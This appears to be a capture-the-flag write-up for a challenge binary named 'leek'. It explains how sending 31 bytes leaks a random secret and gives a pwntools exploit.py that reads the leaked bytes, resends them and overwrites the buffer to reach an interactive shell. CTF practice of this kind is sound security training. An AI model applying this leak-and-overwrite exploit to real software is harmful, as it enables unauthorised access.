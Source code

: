-   A chunk of 32 random bytes is created and we need to supply the matching bytes.
-   Do that 100 times, and we get the flag.
-   If we send 31 bytes, the output is leaked!

```bash
./leek
I dare you to leek my secret.
Your input (NO STACK BUFFER OVERFLOWS!!): aaaabaaacaaadaaaeaaafaaagaaahaaa
:skull::skull::skull: bro really said: aaaabaaacaaadaaaeaaafaaagaaahaaa
��`W;57r';I=׎�͇�t�. Ux+�<�
```

#### exploit.py

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './leek'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Send 31 bytes of random data
io.sendlineafter(b'):', cyclic(31))
io.recvline()

# Grab the secret
secret = io.recvline().strip()

io.sendafter(b'What\'s my secret?', secret)

io.sendlineafter(b'Say what you want:', b'B' * 24)

# Got Shell?
io.interactive()
```
